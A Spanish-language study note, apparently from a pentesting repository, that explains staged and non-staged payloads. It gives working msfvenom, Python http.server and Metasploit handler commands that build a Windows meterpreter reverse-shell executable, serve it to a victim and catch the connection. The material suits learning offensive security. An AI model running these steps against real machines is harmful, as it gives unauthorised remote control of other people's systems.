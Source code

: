 
----
- Tags: #Payloads #Staged #Non-Staged
----

> **Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.

**Un ejemplo del Staged es el siguiente:**
```Zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe
```
- Con este comando obtendríamos un ejecutable que debemos transferir a la maquina víctima 
**Lo compartimos a nivel de red:**
```python
python -m http.server 1212
```
- Para este punto ya deberíamos tener comprometida la maquina eh ingresar por el navegador por la ip del atacante por el puerto 1212 y descargar la reverse.exe
**Iniciamos Metasploit**
```zsh
msfdb run
```
**En el interprete ingresamos los siguientes comandos:**
```Metasploit
>>use exploit/multi/handler
>>set payload windows/x64/meterpreter/reverse_tcp
>>show options
>>set LHOST 192.168.111.45
>>set LPORT 4646
>>run
```
- En este punto ponemos a correr el archivo reverse.exe en la maquina victima para obtener acceso.

> **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

